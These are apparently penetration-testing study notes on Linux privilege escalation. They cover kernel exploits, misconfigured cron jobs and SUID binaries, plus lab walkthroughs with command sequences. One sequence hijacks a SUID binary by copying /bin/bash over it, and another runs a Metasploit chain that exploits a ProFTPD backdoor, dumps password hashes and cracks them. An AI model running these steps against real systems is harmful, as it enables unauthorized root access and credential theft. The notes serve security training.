 ### Linux Kernel Exploitation
kernel exploits on Linux will typically target vulnerabilities in the Linux kernel to execute arbitrary code in order to run privileged system commands or to obtain a system shell

- the process will differ based on the kernel version and distribution being targeted and the kernel exploit being used

- Privilege escalation on Linux systems will typically follow the following methodology 
-Identifying kernel vulnerabilities
-downloading compiling and transferring kernel exploits into the target system


### Exploiting misconfigured Cron Jobs
- Linux implements task scheduling through a utility called Cron
- Cron is a time based service that runs applications scripts and other commands repeatedly on a specified schedule

### Exploiting Misconfigured Cron Jobs 
this is  primarily because any script or command that is run by a cron job will run as the root user and will consquently provide us with root access

# Cron Jobs Gone Wild II Lab
	ls -l
	find / -name message
	ls -l /tmp/
	grep -nrl "/tmp/message" /usr
	ls -l /usr/local/share/copy.sh
	cat /usr/local/share/copy.sh
	sudo -l
	sudo su
	cd /root
	ls -l
	cat flag

## Exploiting SUID Binaries
in addition to the three main file access permissions (read, write, execute) linux also provides users with specialized permissions that can be utilized in specific situations one of these access permissions is the SUID (set Owner User ID) permission

- SUID permissions are typically used to provide unprivileged users with the ability to run specific scripts or binaries with "root" permissions it is to be noted however that the provision of elevate privileges is limited to the execution of the script and does not translate to elevation of privileges 
- access permissions - we will require executable permissions in order to execute the SUID binary

## Exploiting Setuid Programs
	ls -l
	file welcome
	strings welcome
	rm greetings
	cp /bin/bash greetings
	./welcome
	whoami
	cd /root/
	cat flag


## Password Cracker: Linux Lab
	nmap -sS -sV 192.229.31.3
	 /etc/init.d/postgresql start
	 msfconsole -q
	use exploit/unix/ftp/proftpd_133c_backdoor
	set RHOSTS 192.229.31.3
	exploit -z
	
	use post/linux/gather/hashdump
	set SESSION 1
	exploit

	use auxiliary/analyze/crack_linux
	set SHA512 true
	run
	